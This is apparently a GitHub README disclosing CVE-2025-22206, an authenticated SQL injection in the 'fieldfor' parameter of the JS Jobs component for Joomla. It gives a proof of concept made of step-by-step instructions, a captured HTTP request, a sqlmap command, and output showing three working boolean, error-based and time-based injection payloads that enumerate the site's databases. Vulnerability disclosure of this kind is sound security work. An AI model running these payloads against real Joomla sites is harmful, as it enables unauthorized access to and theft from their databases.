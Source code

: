 # CVE-2025-22206: JS Jobs SQL injection vulnerability

**CVE Link:** https://www.cve.org/CVERecord?id=CVE-2025-22206
**JS Jobs:** https://joomsky.com/js-jobs-joomla
**Writeup:** https://decrypt.locker/obtaining-my-first-cve

## Introduction
A SQL injection vulnerability in the JS Jobs plugin versions 1.1.5-1.4.2 for Joomla allows authenticated attackers (administrator) to execute arbitrary SQL commands via the 'fieldfor' parameter in the GDPR Field feature.

## POC
To exploit this vulnerability, log in as the site administrator and go to 'Dashboard >> GDPR Fields >> + Add New Field >> Add Fields >> Field Title: test >> Field Text: test >> Save Fields'.

![Alt text](https://decrypt.locker/content/images/size/w1000/2025/02/3.png)

Then capture the Save Fields HTTP request with Burp Suite and save the request to a file (req.txt). Then run SQLMap through the file to exploit the SQLi vulnerability (see below).

**HTTP Request:**
```
POST /administrator/index.php HTTP/1.1
Host: localhost:8080
Content-Length: 364
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Origin: http://localhost:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/administrator/index.php
Accept-Encoding: gzip, deflate, br
Cookie: osColorScheme=dark; atumSidebarState=open; jsst_collapse_admin_menu=1; a3030abf7606e950783a31b16179a889=1c61b4c6f83b5569f9484c6888412100; f06339f02055c32957cf8cda32f8587f=48b5f4615da4721440ffe8ec49d08347
Connection: keep-alive

check=89cb1c0cc02cf810832f5e4c6c7b7386&fieldtitle=test&termsandconditions_text=test&termsandconditions_linktype=0&termsandconditions_link=&id=&task=gdpr.savegdprfield&option=com_jsjobs&userfieldtype=termsandconditions&isuserfield=1&fieldfor=14&published=1&required=1&isvisitorpublished=1&ordering=&created=&submit_app=Save+Fields&89cb1c0cc02cf810832f5e4c6c7b7386=1
```

**Exploit:**
```
ubuntu@host:~/tools$ python3 sqlmap-dev/sqlmap.py -r ~/test/req.txt --batch --dbs

        ___
       __H__
 ___ ___[']_____ ___ ___  {1.9.1.2#dev}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

---
Parameter: fieldfor (POST)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: check=891b79eeac944c244b6331618aa0dac0&fieldtitle=test&termsandconditions_text=test&termsandconditions_linktype=0&termsandconditions_link=&id=&task=gdpr.savegdprfield&option=com_jsjobs&userfieldtype=termsandconditions&isuserfield=1&fieldfor=(SELECT (CASE WHEN (7446=7446) THEN 14 ELSE (SELECT 6203 UNION SELECT 9943) END))&published=1&required=1&isvisitorpublished=1&ordering=&created=&submit_app=Save Fields&891b79eeac944c244b6331618aa0dac0=1

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: check=891b79eeac944c244b6331618aa0dac0&fieldtitle=test&termsandconditions_text=test&termsandconditions_linktype=0&termsandconditions_link=&id=&task=gdpr.savegdprfield&option=com_jsjobs&userfieldtype=termsandconditions&isuserfield=1&fieldfor=14 AND GTID_SUBSET(CONCAT(0x71786a6271,(SELECT (ELT(6091=6091,1))),0x716a766b71),6091)&published=1&required=1&isvisitorpublished=1&ordering=&created=&submit_app=Save Fields&891b79eeac944c244b6331618aa0dac0=1

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: check=891b79eeac944c244b6331618aa0dac0&fieldtitle=test&termsandconditions_text=test&termsandconditions_linktype=0&termsandconditions_link=&id=&task=gdpr.savegdprfield&option=com_jsjobs&userfieldtype=termsandconditions&isuserfield=1&fieldfor=14 AND (SELECT 7659 FROM (SELECT(SLEEP(5)))kQDv)&published=1&required=1&isvisitorpublished=1&ordering=&created=&submit_app=Save Fields&891b79eeac944c244b6331618aa0dac0=1
---

available databases [3]:
[*] information_schema
[*] joomla_db
[*] performance_schema
```
